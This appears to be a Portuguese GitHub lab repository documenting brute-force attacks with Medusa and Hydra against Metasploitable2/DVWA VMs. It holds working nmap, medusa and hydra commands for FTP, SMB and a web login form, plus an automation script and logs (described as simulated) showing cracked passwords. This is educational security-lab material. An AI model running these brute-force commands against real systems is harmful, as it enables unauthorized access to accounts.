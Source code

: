dio-medusa-kali-lab/
├── README.md
├── LICENSE
├── wordlists/
│   └── wordlist_small.txt
├── users/
│   └── users.txt
├── scripts/
│   └── run_medusa.sh
├── logs/
│   ├── nmap_full.txt
│   ├── medusa_ftp.log
│   ├── medusa_smbnt.log
│   └── hydra_dvwa.log
└── images/
    ├── 01_nmap_scan.png
    ├── 02_medusa_ftp_success.png
    ├── 03_smb_enum.png
    └── 04_dvwa_login_success.png
# Projeto: Ataques de Força Bruta com Medusa (Kali + Metasploitable/DVWA)

## ⚠️ Aviso Legal
Todos os testes descritos e executados neste repositório são **simulados** e/ou realizados exclusivamente em ambiente de laboratório controlado (VMs próprias). Nunca execute ataques de força bruta contra sistemas sem autorização explícita.

## Objetivo
Demonstrar e documentar ataques de força bruta em serviços comuns (FTP, SMB e formulários web) usando **Kali Linux** e **Medusa**, além de propor medidas de mitigação.

## Arquitetura do Lab (simulada)
- Kali Linux (atacante) — 192.168.56.101
- Metasploitable2 / DVWA (alvo) — 192.168.56.102
- Rede: Host-only / Internal Network

## Estrutura do repositório
- `wordlists/` — wordlists usadas
- `users/` — listas de usuários
- `scripts/` — scripts de automação
- `logs/` — logs simulados das execuções
- `images/` — imagens/screenshot simuladas (descrições)
- `README.md` — este arquivo

---

## Ferramentas
- Kali Linux
- Medusa
- Hydra (para formulário web quando necessário)
- Nmap
- smbclient

---

## Passo a passo (resumo)
1. Configurar VMs em rede host-only.
2. Executar enumeração com `nmap`.
3. Montar wordlists simples.
4. Realizar ataques:
   - FTP: força bruta com Medusa
   - SMB: password spraying + enumeração de usuários com Medusa
   - Web (DVWA): bruteforce do formulário com Hydra (ou medusa http_form quando suportado)
5. Registrar evidências (logs, screenshots).
6. Propor e documentar mitigação.

---

## Comandos utilizados (exemplos)

### Enumeração (Nmap)
```bash
nmap -sC -sV -p- -T4 192.168.56.102 -oN logs/nmap_full.txt
medusa -h 192.168.56.102 -U users/users.txt -P wordlists/wordlist_small.txt -M ftp -f | tee logs/medusa_ftp.log
medusa -h 192.168.56.102 -U users/users.txt -P wordlists/wordlist_small.txt -M smbnt -f | tee logs/medusa_smbnt.log
hydra -L users/users.txt -P wordlists/wordlist_small.txt 192.168.56.102 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -t 4 -w 5 | tee logs/hydra_dvwa.log
# Nmap 7.80 scan initiated Mon Oct 19 12:00:00 2025 for 192.168.56.102
Nmap scan report for 192.168.56.102
Host is up (0.00045s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.3.4
22/tcp   open  ssh        OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp  open  netbios-ssn Samba smbd 3.X
445/tcp  open  microsoft-ds Samba smbd 3.X
Service Info: OSs: Unix, Linux
# Nmap done at Mon Oct 19 12:00:12 2025 -- 1 IP address (1 host up) scanned in 12.00 seconds
MEDUSA v2.2 ( http://www.foofus.net )
[+] Host: 192.168.56.102   Module: ftp   User: anonymous   Pass: ftp@localhost
[!] 1 valid credential returned
[+] 192.168.56.102:21 ftp - LOGIN SUCCESS: "ftpuser":"123456"
Task Completed
MEDUSA v2.2
[+] Host: 192.168.56.102   Module: smbnt   User: guest   Pass: letmein
[!] 1 valid credential returned
[+] 192.168.56.102:445 smbnt - LOGIN SUCCESS: "guest":"letmein"
Hydra v9.1
[DATA] attacking service http-post-form on port 80
[80][http-post-form] host: 192.168.56.102   login: admin   password: qwerty
1 of 1 target completed, 1 valid password found

---

# Arquivos de wordlists (conteúdo para copiar)

`wordlists/wordlist_small.txt`

`users/users.txt`

---

# Script de automação (scripts/run_medusa.sh)
```bash
#!/bin/bash
# run_medusa.sh - script simples para executar Medusa contra FTP e SMB (simulado)

TARGET="192.168.56.102"
USERS="users/users.txt"
PASS="wordlists/wordlist_small.txt"

echo "[*] Running Medusa FTP attack..."
medusa -h $TARGET -U $USERS -P $PASS -M ftp -f | tee logs/medusa_ftp.log

echo "[*] Running Medusa SMB password spraying..."
medusa -h $TARGET -U $USERS -P $PASS -M smbnt -f | tee logs/medusa_smbnt.log

echo "[*] Done. Logs in logs/"
git init
git add .
git commit -m "feat: initial lab simulation - medusa brute force examples"
gh repo create dio-medusa-kali-lab --public --source=. --remote=origin
git push -u origin main
